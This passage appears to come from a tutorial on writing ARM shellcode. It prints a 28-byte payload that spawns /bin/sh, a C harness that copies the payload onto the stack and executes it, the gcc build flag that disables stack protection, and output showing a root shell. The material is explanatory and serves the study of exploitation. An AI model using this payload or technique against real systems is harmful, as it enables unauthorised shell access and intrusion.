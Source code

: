 And now we can try running our code from the stack of a normal program

```
#include <stdio.h>
#include <string.h>

char *shellcode =
    "\x01\x10\x8f\xe2\x11\xff\x2f\xe1"
    "\x02\xa0\x49\x40\x52\x40\xc1\x71"
    "\x0b\x27\x01\xdf\x2f\x62\x69\x6e"
    "\x2f\x73\x68\x41";


int main(int argc, char **argv)
{
	char buff[40];

	strcpy(buff, shellcode);

	printf("Length: %d\n", strlen(buff));

	(*(void(*)()) buff)();

	return 0;
}


```

When building we need to tell the linker to allow an executable stack [execstack(8)](http://man7.org/linux/man-pages/man8/execstack.8.html)

```
$ gcc shelltest.c -o shelltest -z execstack	


```

And run

```
# ./shelltest
Length: 28
bash-4.4#


```
